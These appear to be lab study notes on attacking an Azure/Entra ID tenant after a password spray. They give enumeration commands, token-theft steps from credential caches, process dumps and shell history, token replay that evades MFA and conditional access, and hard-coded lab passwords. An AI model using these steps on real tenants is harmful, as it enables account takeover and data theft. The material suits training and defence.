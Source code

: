 *_Got creds for a test user by password spray._

TLDR:
- Use [AzureAD](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module)/[MG Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---mg-module) for basic AAD/Entra ID Directory enumeration (i.e., users, groups, devices)
  - This will require an access token for AAD or MS Graph
- Use [az powershell](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration----az-powershell) or [az cli](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azure-cli-az-cli) for other enumeration - resources, roles, vms, apps etc
  - This will require ARM access token (default token)
    

- Using tools like ROADTools or Azurehound is going to be our best bet anyhow (and enum isnt logged so who cares right!?)
 
    


#### AzureAD
Using the [AzureAD Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module) to begin


We have compromised a user "Test", so first thing after [logging in](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azuread-module); lets see what **user permissions** we have - in Azure this will be groups and roles:
```
Get-AzureADUser -SearchString 'test'
Get-AzureADUserMembership -ObjectId test@defcorphq.onmicrosoft.com
```
Can we see much more information about this **group**? ```Get-AzureADGroup -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed | fl *```
**Who** else is in this **group**? (everyone):  ```Get-AzureADGroupMember -ObjectId 477db607-3447-4fde-b7de-cdbef47321ed```


Ok lets look for **admin users**:
```
Get-AzureADUser -SearchString 'admin' | Get-AzureADUserMembership
Get-AzureADUserMembership -ObjectId admin@defcorphq.onmicrosoft.com
```
- I wonder who else is in the Global Admins group? ```Get-AzureADGroupMember -ObjectId 9240b75e-823c-4c02-8868-a00ddbeb3fa1```

_in normal environments we would expect to see some Service Principals (that is an application service account) running as Global Administrator - if we were to compromise that object, or a user that is the owner of that object, we could get GA!_

- Lets check if we are the **owner of a device** (and therefore localadmin)? ```Get-AzureADUserOwnedDevice -ObjectId test@defcorphq.onmicrosoft.com```
- lets see what **devices** are ACTUALLY being **used** (i.e., active): ```Get-AzureADDevice -All $true | ?{$_.ApproximateLastLogonTimeStamp -ne $null}```
- OK now lets see if there are any **custom roles**? ```Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False}``` (May need to use preview module)
- And lets see the **users who have Global admin** role: ```Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember```
#### MG Module
You could also use the [MG Module](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---mg-module) instead if you wanted:
```
$passwd = ConvertTo-SecureString "V3ryH4rdt0Cr4ckN0OneC@nGu355ForT3stUs3r" -AsPlainText -Force 
$creds = New-Object System.Management.Automation.PSCredential ("test@defcorphq.onmicrosoft.com", $passwd) 
Connect-AzAccount -Credential $creds 

$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
Connect-MgGraph -AccessToken ($Token | ConvertTo-SecureString -AsPlainText -Force)
```
```
Get-MgUser -All
Get-MgUser -All | select UserPrincipalName
Get-MgGroup -All
Get-MgDevice
```

To get all the Global Administrators:
```
$RoleId = (Get-MgDirectoryRole -Filter "DisplayName eq 'Global Administrator'").Id
(Get-MgDirectoryRoleMember -DirectoryRoleId $RoleId).AdditionalProperties
```

list all custom directory roles:
```Get-MgRoleManagementDirectoryRoleDefinition | ?{$_.IsBuiltIn -eq $False} | select DisplayName```

#### az powershell
there is also [az Powershell](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration----az-powershell), best for resources, roles and VMs:

- Ok now lets enumerate all **resources** visible to the current user:
```Get-AzResource```

- And enumerate all **Azure RBAC role assignments** for all the resources the current user has read access to (NOT just the users role assignments):
```Get-AzRoleAssignment```

- lets output that to a table for ease of use:
```
Get-AzRoleAssignment | select DisplayName, RoleDefinitionName, ObjectType, CanDelegate
```

- Ok now lets look at **Virtual Machines** the user has access to: ```Get-AzVM | fl *```
- And any **Apps**: ```Get-AzWebApp```
  - We could display just **WebApp/Traditional App**:
```Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}```
  - Display **functional App**:
```Get-AzFunctionApp```
- List a table of all visible apps:
```
Get-AzWebApp | select name, HostNames, kind, state, identity
```
- Also **Storage**:
```Get-AzStorageAccount | fl```
- And **KeyVault**:
 ```Get-AzKeyVault```

#### az cli
And finally [az cli](https://github.com/conma293/Azure/blob/main/2.1_Enumeration.md#enumeration---azure-cli-az-cli); 
a good one to use from az cli is the **whoami** equivalent:-
```az ad signed-in-user show```


Also good to note, there is more information returned from ```az cli``` for some objects i.e., Can see the type of managed identity used for objects such as VM and Webapps:
```
az vm list
az vm list --query "[].[name]" -o table

az webapp list
az webapp list --query "[].[name]" -o table

az functionapp list --query "[].[name]" -o table

az storage account list

az keyvault list
```

Important to try all tools to get info!

## Tokens
- Steal tokens (If you are signed in you can dump it with ```(Get-AzAccessToken).token```)
- reuse instead of creds (similar to TGT ticket reuse with Rubeus):
```
Connect-AzAccount -AccessToken $token -AccountId test@defcorphq.onmicrosoft.com
```

- Test access to resources: ```Get-AzResource```

_with token replay you evade conditional access policy, and almost always mfa and entra id protect as well_
  - (because its not a sign-in!) all those work only for signin, this is after, direct to api - 
```Web API Validates access token and returns secure data to web server app```

lets get graph token:
```
Get-AzAccessToken -ResourceTypeName MSGraph
disConnect-AzAccount
Connect-AzAccount -AccountId test@defcorphq.onmicrosoft.com -AccessToken $token -MicrosoftGraphAccessToken eyJ0eXA...
```

**best target is managed identity access token - not protected by CAE!**


### Steal token
When on a machine look in - ```C:\Users\[username]\.Azure```
 - **az cli** (before 2.30.0 – January 2022) stores access tokens in clear text in ```accessTokens.json```
    - You can modify accessTokens.json to use access tokens with az cli but better to use with Az PowerShell or the Azure AD module.
    - ```azureProfile.json``` in the same directory contains information about subscriptions.
 -  **Az PowerShell** (older versions) stores access tokens in clear text in ```TokenCache.dat```
    -  It also stores ServicePrincipalSecret in clear-text in AzureRmContext.json if a service principal secret is used to authenticate.
 -  Another interesting method is to take a **process dump of PowerShell** and looking for tokens in it!
    -  Users can save tokens using Save-AzContext, look out for them! Search for **Save-AzContext** in PowerShell console history!
    -  ```C:\Users\<user>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt```
  




## Tools
#### ROADTools
```
cd C:\AzAD\Tools\ROADTools
.\venv\Scripts\activate
roadrecon auth -u test@defcorphq.onmicrosoft.com -p V3ryH4rdt0Cr4ckN0OneCr4ckTh!sP@ssw0rd
roadrecon gather
roadrecon gui
roadrecon plugin policies
```
